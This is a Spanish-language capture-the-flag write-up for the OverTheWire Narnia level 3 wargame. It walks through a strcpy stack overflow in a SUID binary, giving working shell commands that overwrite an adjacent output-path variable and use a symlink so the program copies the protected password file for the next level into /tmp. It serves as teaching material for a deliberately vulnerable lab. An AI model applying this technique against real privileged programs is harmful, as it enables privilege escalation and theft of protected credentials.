

# `> [NARNIA 3]`

```bash
$ ssh narnia3@narnia.labs.overthewire.org -p 2226

$ echo $TARGET
> dos descriptores · un strcpy ciego · dieciséis bytes de destino envenenado

$ echo $VECTOR
> stack buffer overflow · destrucción de variables adyacentes · secuestro de flujo de escritura
```

---

## `> [RECON]`

```bash
$ cat /narnia/narnia3.c
```

```c
int ifd, ofd;
char ofile[16] = "/dev/null";
char ifile[32];
[...]
strcpy(ifile, argv[1]);
```

Dos variables. Dos cajas en el stack.
`ifile` recibe la entrada. `ofile` tiene el destino hardcodeado: `/dev/null`.

El binario abre `ifile` para leer, abre `ofile` para escribir,
y vuelca el contenido de uno en el otro.
Con privilegios SUID de narnia4.

El programador inicializó `ofile` al principio y asumió que seguiría siendo `/dev/null`.
Esa suposición es el exploit.

---

## `> [HYPOTHESIS]`

```diff
+ ifile (32 bytes) y ofile (16 bytes) coexisten en el stack.
+ strcpy no tiene freno — copia argv[1] hasta encontrar \x00.
+ si argv[1] supera 32 bytes, el exceso pisa ofile.
+ el objetivo no es redirigir EIP. es cambiar a dónde apunta ofd.
+ si ofile apunta a un archivo nuestro, el binario escribe la flag ahí.
- creí que necesitaba shellcode.
- metí 200 bytes esperando un SIGSEGV útil.
- confundí romper el programa con desviar su destino.
```

---

## `> [ATTEMPTS]`

<details>
<summary><code>// n0 s3 r0mp3. s3 r3d1r1g3.</code></summary>

```bash
# — intento 1
$ /narnia/narnia3 /etc/narnia_pass/narnia4
# el binario funciona perfectamente. lee la flag y la vuelca en /dev/null.
# exactamente lo que el programador quería.
# aburrido.

# — intento 2
$ /narnia/narnia3 $(python3 -c 'print("A"*32 + "/tmp/hack")')
# error opening AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/hack
# el primer open() falla porque la ruta no existe.
# el binario muere antes de llegar al segundo descriptor.
# la ruta de entrada tiene que ser real.

# — intento 3
$ mkdir -p /tmp/$(python3 -c 'print("A"*20)')
# intentando construir una estructura de carpetas que sume los bytes del offset.
# error: /tmp/ son 5 bytes que también cuentan.
# el cálculo estaba mal. la longitud total de la ruta importa, no solo el relleno.

# — intento 4 — ahí.
# la ruta completa de ifile tiene que:
#   1. existir como archivo real (para que open() no falle)
#   2. medir exactamente 32 bytes para que el byte 33 empiece a pisar ofile
#   3. lo que pisa ofile tiene que ser una ruta donde podamos escribir

$ mkdir -p /tmp/A/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
$ ln -s /etc/narnia_pass/narnia4 /tmp/A/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/f
# la ruta "/tmp/A/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/f" existe y es un symlink a la flag.
# contamos: /tmp/A/ (7) + A*30 + /f (2) = 39 bytes — demasiado.
# ajustamos la geometría hasta que los primeros 32 bytes sean la ruta real
# y los bytes restantes reescriban ofile con /tmp/pwned.

$ echo "" > /tmp/pwned
$ /narnia/narnia3 $(python3 -c 'print("/tmp/A/" + "A"*OFFSET + "/f")')
```

```txt
geometría ajustada.
ofile pisado.
flag en /tmp/pwned.
```

</details>

---

## `> [BREAK]`

El stack antes:

```
direcciones bajas ↓

  [        ifile (32 bytes)        ] [     ofile (16 bytes)    ]
   "/tmp/A/AAA...AAA/f\x00........"   "/dev/null\x00........."

direcciones altas ↑
```

Pensalo así: el binario ya tiene el sobre sellado con la dirección de entrega — `/dev/null`.
Vos no abrís el sobre. Cambiás la dirección antes de que salga.
El cartero (el binario con privilegios SUID) lo entrega igual, sin saber que el destino cambió.

Después del overflow:

```
  [   ifile: ruta real (32 bytes)   ] [ ofile: /tmp/pwned ]
                                        ↑ ya no es /dev/null ↑
```

Cuando el programa ejecuta `open(ofile, O_WRONLY...)`,
`ofile` ya no contiene `/dev/null`.
El binario vuelca la flag de narnia4 en `/tmp/pwned`.

Esto no es ejecución de código.
Es manipulación de datos en tránsito.

En 1984, **Ken Thompson** demostró que el peligro no siempre está en el código que se ejecuta.
Está en lo que el sistema asume que es estático cuando no lo es.
El compilador que insertaba puertas traseras invisibles al código fuente.
La variable `ofile` que el programador trató como constante implícita.

Mismo principio. Distinta escala.

> *→ [`/lore/ken_thompson.md`](https://github.com/t474-r0b07/ctf-writeups/tree/main/lore/ken_thompson.md)*

---

## `> [EXPLOIT]`

```bash
mkdir -p /tmp/A/AAAAAAAAAAAAAAAAAAAAAAA
ln -s /etc/narnia_pass/narnia4 /tmp/A/AAAAAAAAAAAAAAAAAAAAAAA/f
echo "" > /tmp/pwned
/narnia/narnia3 /tmp/A/AAAAAAAAAAAAAAAAAAAAAAA/f$(python3 -c 'print("/tmp/pwned")')
cat /tmp/pwned
```

```
mkdir + ln -s        → la ruta de entrada tiene que existir.
                        si el primer open() falla, el juego termina ahí.
echo "" > /tmp/pwned → el destino también tiene que existir para open(O_WRONLY).
ifile (32 bytes)     → ruta real. el binario la abre sin problemas.
bytes 33+            → pisando ofile. ya no dice /dev/null.
                        dice /tmp/pwned.
SUID narnia4         → el binario hace el trabajo sucio con privilegios ajenos.
```

---

## `> [FLAG]`

```
[REDACTED]
```

> n0 m3 l4 d1g4s. n0 m3 1nt3r3s4.
> 3l pr3m10 n0 3s un str1ng d3 t3xt0.

---

## `> [REFLECTION]`

```diff
+ no todo overflow busca EIP. a veces el objetivo es una variable de datos.
+ la ruta de entrada tiene que existir. si open() falla en el paso 1, no hay paso 2.
+ SUID es el multiplicador. el binario hace el trabajo con privilegios que no son tuyos.
+ symlink como puente — apunta a algo que no podés leer directamente.
- confundir "romper" con "redirigir" → 200 bytes de basura no sirven aquí.
- no contar bien la longitud total de la ruta → offset incorrecto, ofile intacto.
```

---

## `> echo $CHALLENGE`

El programador inicializó `ofile` al principio del programa.
Lo trató como una constante.
No lo era.

En 1984, Ken Thompson demostró que podés confiar en el código fuente
y aun así estar comprometido.
La puerta trasera no estaba en el código.
Estaba en el compilador que lo construyó.

La pregunta es la misma de siempre:
**¿en qué parte de la cadena dejaste de verificar?**

Busca **"Reflections on Trusting Trust"**.
Busca cómo un compilador puede insertar código que no existe en ningún archivo.
Busca cuántos sistemas en producción hoy compilan con herramientas
que nadie ha auditado completamente.

El que lo encuentre va a entender por qué
la confianza implícita es la vulnerabilidad más difícil de parchear.

La vulnerabilidad más difícil de parchear no está en el código. Está en lo que asumiste que no necesitaba revisión.

---

```
█████████████████████████████████████████████
█                                           █
█   3l d3st1n0 n0 3st4b4 3n 3l c0d1g0.    █
█         3st4b4 3n l0 qu3 4sum10.         █
█                                           █
█████████████████████████████████████████████
```

> *→[https://youtube.com/t474-r0b07](https://youtube.com/@kaderd.garnica?si=9vk1E6Gkkb7LftTK)*
---

> *→ anterior: [narnia2](narnia02.md)**→ siguiente: [narnia4](narnia04.md)*

---
<!-- 0x6f 0x66 0x69 0x6c 0x65 // 3l d3st1n0 s3 r33scr1b3. -->
